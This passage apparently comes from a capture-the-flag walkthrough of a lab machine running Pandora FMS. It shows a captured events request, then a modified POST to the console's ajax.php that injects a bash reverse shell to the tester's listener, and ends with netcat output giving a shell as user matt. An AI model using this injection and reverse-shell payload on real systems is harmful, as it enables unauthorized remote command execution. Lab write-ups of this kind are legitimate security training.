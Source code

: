 ```
draw=1&columns%5B0%5D%5Bdata%5D=mini_severity&columns%5B0%5D%5Bname%5D=&columns%5B0%5D%5Bsearchable%5D=true&columns%5B0%5D%5Borderable%5D=true&columns%5B0%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B0%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B1%5D%5Bdata%5D=evento&columns%5B1%5D%5Bname%5D=&columns%5B1%5D%5Bsearchable%5D=true&columns%5B1%5D%5Borderable%5D=true&columns%5B1%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B1%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B2%5D%5Bdata%5D=id_agente&columns%5B2%5D%5Bname%5D=&columns%5B2%5D%5Bsearchable%5D=true&columns%5B2%5D%5Borderable%5D=true&columns%5B2%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B2%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B3%5D%5Bdata%5D=estado&columns%5B3%5D%5Bname%5D=&columns%5B3%5D%5Bsearchable%5D=true&columns%5B3%5D%5Borderable%5D=true&columns%5B3%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B3%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B4%5D%5Bdata%5D=timestamp&columns%5B4%5D%5Bname%5D=&columns%5B4%5D%5Bsearchable%5D=true&columns%5B4%5D%5Borderable%5D=true&columns%5B4%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B4%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B5%5D%5Bdata%5D=options&columns%5B5%5D%5Bname%5D=&columns%5B5%5D%5Bsearchable%5D=true&columns%5B5%5D%5Borderable%5D=false&columns%5B5%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B5%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B6%5D%5Bdata%5D=m&columns%5B6%5D%5Bname%5D=&columns%5B6%5D%5Bsearchable%5D=true&columns%5B6%5D%5Borderable%5D=false&columns%5B6%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B6%5D%5Bsearch%5D%5Bregex%5D=false&order%5B0%5D%5Bcolumn%5D=4&order%5B0%5D%5Bdir%5D=desc&start=0&length=20&search%5Bvalue%5D=&search%5Bregex%5D=false&filter%5Bid_group_filter%5D=0&filter%5Bevent_type%5D=&filter%5Bseverity%5D=-1&filter%5Bstatus%5D=3&filter%5Bevent_view_hr%5D=8&filter%5Bgroup_rep%5D=1&filter%5Bsearch%5D=&filter%5Bsource%5D=&filter%5Bid_extra%5D=&filter%5Buser_comment%5D=&filter%5Btext_agent%5D=&filter%5Bid_agent%5D=0&filter%5Bmodule_search%5D=&filter%5Bmodule_search_hidden%5D=&filter%5Bid_user_ack%5D=0&filter%5Bfilter_only_alert%5D=-1&filter%5Bdate_from%5D=&filter%5Btime_from%5D=&filter%5Bdate_to%5D=&filter%5Btime_to%5D=&filter%5Btag_with%5D=&filter%5Btag_without%5D=&filter%5B%5D=&get_events=1&history=0&page=operation%2Fevents%2Fevents

```

I’ll send that request to Burp Repeater, and replace the payload with the much smaller one in the POC link. I’ll have to tweak it a bit to get it to work, but eventually I’ll end up with this:

```

POST /pandora_console/ajax.php HTTP/1.1
Host: pandora.panda.htb:9001
...[snip]...
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq

page=include/ajax/events&perform_event_response=10000000&target=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"&response_id=1

```

On sending, I get a shell as matt:

```

oxdf@hacky$ nc -nvlp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.136 44100
bash: cannot set terminal process group (10969): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console$ id
uid=1000(matt) gid=1000(matt) groups=1000(matt)

```
